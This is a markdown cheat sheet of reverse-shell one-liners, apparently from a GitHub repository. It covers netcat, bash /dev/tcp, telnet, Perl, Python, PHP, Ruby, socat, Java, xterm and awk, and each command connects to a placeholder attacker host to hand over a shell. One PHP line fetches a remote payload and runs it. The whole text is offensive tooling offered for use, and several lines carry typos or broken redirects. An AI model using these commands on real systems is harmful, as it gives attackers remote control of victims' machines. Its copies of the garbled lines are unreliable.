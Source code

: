 # Reverse Shells
## Don't forget to Listen
- nc -lvnp x.x.x.x port
## Netcat 
- nc -c /bin/sh x.x.x.x port
- nc x.x.x.x port -e /bin/bash
- /bin/sh | nc x.x.x.x port
- nc x.x.x.x port | /bin/sh | nc x.x.x.x port
- rm -f /tmp/p; mknod /tmp/p p && nc x.x.x.x port 0/tmp/p 2>&1
## Bash
- bash -i >& /dev/tcp/x.x.x.x/port 0>&1
- exec 5<>/dev/tcp/x.x.x.x/port;cat <&5 | while read line; do $line 2>&5; done
- exec /bin/sh 0</dev/tcp/x.x.x.x/port 1>&0 2>&0
- /bin/bash -i /dev/tcp/x.x.x.x/port 0>&1 2>&1
- 0<&196; exec 196<>/dev/tcp/x.x.x.x/port; sh  <&196 > &196 2>&196
## Telnet
- rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x port 0/tmp/p 2>&1
- telnet x.x.x.x port | /bin/bash | telnet x.x.x.x port
- mknod backpipe p && telnet x.x.x.x port 0<backpipe | /bin/bash 1>backpipe
-rm -f x; mknod x p && telnet <IP> <PORT> 0<x | /bin/bash 1>x 
## Perl
- perl -e 'use Socket;$i="x.x.x.x"; $p=port; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'

- perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

- perl -MIO -e "$c=new IO::Socket::INET(PeerAddr,'<IP>:<PORT>');STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"
## Python
- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("x.x.x.x",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
- php -r '$sock=fsockopen("x.x.x.x",port);exec("/bin/sh -i <&3 >&3 2>&3");'
## Ruby
- ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new("x.x.x.x",port);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
-ruby -rsocket -e "c=TCPSocket.new("x.x.x.x",port);while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"

## PHP
- cd /tmp && wget -0 bd.php x.x.x.x/test/payload.php.txt && php -f bd.php
- php -r '$s=fsockopen("x.x.x.x",port);exec("/bin/sh -i <&3 >&3 2>&3");'
- php -r '$s=fsockopen("x.x.x.x",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
- php -r '$s=fsockopen("x.x.x.x",port);`/bin/sh -i <&3 >&3 2>&3`;'
- php -r '$s=fsockopen("x.x.x.x",port);system("/bin/sh -i <&3 >&3 2>&3");'
- php -r '$s=fsockopen("x.x.x.x",port);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
## Socat
- socat tcp-connect:x.x.x.x:port exec:"bash -li",pty,stderr,setsid,sigint,sane
## Java
- r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
## Xterm
- Xnest :1 AND - xhost +x.x.x.x
- xterm -display x.x.x.x:1
- /usr/openwin/bin/xterm -display x.x.x.x:1
## Awk
- awk 'BEGIN {s = "/inet/tcp/0/x.x.x.x/port"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null